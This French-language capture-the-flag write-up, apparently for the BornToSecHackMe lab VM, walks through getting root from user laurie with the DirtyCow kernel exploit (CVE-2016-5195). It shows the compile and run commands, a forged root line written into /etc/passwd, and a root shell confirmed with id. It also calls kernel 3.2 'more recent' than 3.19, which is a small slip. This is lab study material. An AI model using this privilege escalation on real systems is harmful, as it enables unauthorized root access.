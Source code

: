 ### PRECISION

Comme pour le premier writeup les adresses IP peuvent changer donc il faudra bien adapter les IP en fonction du reseau.

### laurie

Pour cet exploit reprenons directement après etre log en tant que lmezard.

```
ssh laurie@192.168.1.27
```

En cherchant un peu sur internet les differentes vulnerabilités que presente le noyau linux (et surtout le notre, c'est ce qui nous interesse), nous trouvons bon nombre d'articles.

Un compte GitHub liste pas mal de payloads en ce qui concerne les privileges escalation :

[Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

Tout en bas nous voyons plusieurs exploits disponibles et celui qui va nous interesser ici sera le CVE-2016-5195 (DirtyCow) Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

En effet chez nous la version est plus recente que 3.19 :

```
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/linux
```

On va donc essayer d'utiliser cet exploit :

[PoCs](https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c)


Ce dernier va generer un nouveau fichier /etc/passwd tout en gardant le vrai intact pour qu'on le restaure après.

Il nous suffit de copy/paste le code puis de le compiler et d'executer le programme pour pouvoir se log en tant que root.

```
laurie@BornToSecHackMe:/tmp$ gcc dirty.c -o dirty -pthread -lcrypt
laurie@BornToSecHackMe:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
evait:fiY9IH9EEmntk:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created
You can log in with username evait and password pwn.


DON'T FORGET TO RESTORE /etc/passwd FROM /tmp/passwd.bak !!!

Done! Check /etc/passwd to see if the new user was created
You can log in with username evait and password pwn.


DON'T FORGET TO RESTORE /etc/passwd FROM /tmp/passwd.bak !!!

laurie@BornToSecHackMe:/tmp$ su evait
Password:
evait@BornToSecHackMe:/tmp# id
uid=0(evait) gid=0(root) groups=0(root)
evait@BornToSecHackMe:/tmp# cd /root
evait@BornToSecHackMe:~# cat README
CONGRATULATIONS !!!!
To be continued...
```

Et voila encore une fois nous sommes root !
